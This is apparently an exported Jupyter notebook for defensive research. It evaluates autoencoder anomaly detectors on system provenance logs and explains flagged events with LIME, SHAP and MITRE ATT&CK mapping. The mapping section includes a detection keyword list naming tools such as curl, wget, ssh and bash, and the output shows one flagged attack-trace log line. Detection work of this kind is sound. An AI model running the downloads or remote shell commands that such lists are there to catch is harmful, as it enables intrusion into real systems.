    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.997 | nDCG: 0.8072 (DCG: 16.901, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.8555 | nDCG: 0.3898 (DCG: 8.1625, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.4999 | nDCG: 0.3376 (DCG: 7.069, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9703 | nDCG: 0.5509 (DCG: 11.5349, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.8396 | nDCG: 0.3845 (DCG: 8.0502, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.8456 | nDCG: 0.3823 (DCG: 8.0041, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.841 | nDCG: 0.387 (DCG: 8.1032, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.859 | nDCG: 0.3884 (DCG: 8.1336, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9962 | nDCG: 0.7844 (DCG: 16.4249, IDCG: 20.9387)
    -> Training Robust... Done. AUC: 0.999 | nDCG: 0.9079 (DCG: 19.0095, IDCG: 20.9387)
    -> Training Contractive... Done. AUC: 0.8454 | nDCG: 0.3884 (DCG: 8.1329, ID

In [3]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "stella_400m" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] dunzhang/stella_en_400M_v5 uses 1024 dimensions
INPUT_DIM = 1024 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for STELLA_400M on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1176 | PR-AUC: 0.0441
    -> Sparse Done! F1: 0.1633 | PR-AUC: 0.0467
    -> Deep SVDD Done! F1: 0.2222 | PR-AUC: 0.0901
    -> DAE Done! F1: 0.08 | PR-AUC: 0.032
    -> VAE Done! F1: 0.1212 | PR-AUC: 0.0341
    -> Beta-VAE Done! F1: 0.15 | PR-AUC: 0.0463
    -> GMVAE Done! F1: 0.129 | PR-AUC: 0.0357
    -> Attention AE Done! F1: 0.0909 | PR-AUC: 0.0378
    -> LSTMAE Done! F1: 0.0731 | PR-AUC: 0.0346
    -> Robust Done! F1: 0.0909 | PR-AUC: 0.0401
    -> Contractive Done! F1: 0.1667 | PR-AUC: 0.0467

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0683 | PR-AUC: 0.0242
    -> Sparse Done! F1: 0.0734 | PR-AUC: 0.0213
    -> Deep SVDD Done! F1: 0.0822 | PR-AUC: 0.0285
    -> DAE Done! F1: 0.0741 | PR-AUC: 0.0269
    -> VAE Done! F1: 0.0789 | PR-AUC: 0.0202
    -> Beta-VAE Done! F1: 0.0734 | PR-AUC: 0.021

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.6477 | PR-AUC: 0.5985
    -> Sparse Done! F1: 0.0308 | PR-AUC: 0.0093
    -> Deep SVDD Done! F1: 0.0036 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.3177 | PR-AUC: 0.1115
    -> VAE Done! F1: 0.0216 | PR-AUC: 0.0072
    -> Beta-VAE Done! F1: 0.0224 | PR-AUC: 0.0069
    -> GMVAE Done! F1: 0.0301 | PR-AUC: 0.0087
    -> Attention AE Done! F1: 0.0285 | PR-AUC: 0.0089
    -> LSTMAE Done! F1: 0.5989 | PR-AUC: 0.5123
    -> Robust Done! F1: 0.6946 | PR-AUC: 0.7355
    -> Contractive Done! F1: 0.0308 | PR-AUC: 0.009

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.7468 | PR-AUC: 0.6631
    -> Sparse Done! F1: 0.0752 | PR-AUC: 0.0203
    -> Deep SVDD Done! F1: 0.1964 | PR-AUC: 0.1108
    -> DAE Done! F1: 0.1374 | PR-AUC: 0.0422
    -> VAE Done! F1: 0.

#### XAI Integration and MITRE ATT&CK mapping

In [2]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [STELLA V5 UPDATE] - Fixed the Hugging Face repo name typo!
EMBEDDER_NAME = "dunzhang/stella_en_400M_v5" 
INPUT_DIM = 1024  # CRITICAL: Stella-en-400M-v5 uses 1024 dimensions!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()} in Half-Precision (FP16)...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        
        # [THE FIX]: Force Stella to load in FP16 to satisfy Flash Attention requirements
        # on modern GPUs (Compute Capability 12.0)
        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True,
            torch_dtype=torch.float16 
        ).to(self.device)
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # Stella is only ~400M params, batch size can be higher safely
        batch_size = 8 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            # [THE FIX]: Re-enable autocast to ensure all inputs match the FP16 requirement
            with torch.amp.autocast(ac_device, dtype=torch.float16):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [STELLA V5 POOLING]: Attention-weighted Mean Pooling
                    token_embeddings = outputs.last_hidden_state
                    attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                    
                    # Mathematical trick to maintain stability in fp16
                    sum_embeddings = torch.sum(token_embeddings * attention_mask.to(torch.float16), dim=1)
                    sum_mask = torch.clamp(attention_mask.to(torch.float16).sum(dim=1), min=1e-9)
                    embeddings = sum_embeddings / sum_mask
                    
                    # Normalize embeddings
                    embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                    
                    # [CRITICAL]: Must cast back to FP32 *before* hitting the VanillaAE
                    # because the AE weights are in FP32
                    embeddings = embeddings.to(torch.float32)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    
                    # Ensure no NaNs leak into the LIME explainer
                    errors = torch.nan_to_num(errors, nan=0.0)
                    
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Ensure this folder name matches your Stella v5 training output!
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_stella_400m", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    # [THE FIX]: Display all valid drivers (removed > 0 filter)
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                # [THE FIX]: Sort by absolute impact
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    # [THE FIX]: Display all valid drivers (removed > 0 filter)
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_stella_400m\theia_ProcessAll_Baseline.pth
Loading dunzhang/stella_en_400M_v5 on CUDA in Half-Precision (FP16)...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Some weights of the model checkpoint at dunzhang/stella_en_400M_v5 were not used when initializing NewModel: ['new.pooler.dense.bias', 'new.pooler.dense.weight']
- This IS expected if you are initializing NewModel from the checkpoint of a model trained on another task or with another architecture (e.g. initializing a BertForSequenceClassification model from a BertForPreTraining model).
- This IS NOT expected if you are initializing NewModel from the checkpoint of a model that you expect to be exactly identical (initializing a BertForSequenceClassification model from a BertForSequenceClassification model).



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'event' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'process' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'executable' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'has' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'mmap' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.

Calculating SHAP value

## PLOTS

### T-SNE Embedding 
compare the difference of Group A 2, B 1, C 1, D 1, E 1..... Show the difference and how the embeddings are separated in different kinds of models.

Processing plot 1/5 for 5dir...
  -> Found dictionary keys: ['X', 'y']




  -> Plot saved as tsne_5dir_ProcessNetflow.png

Processing plot 2/5 for cadets...
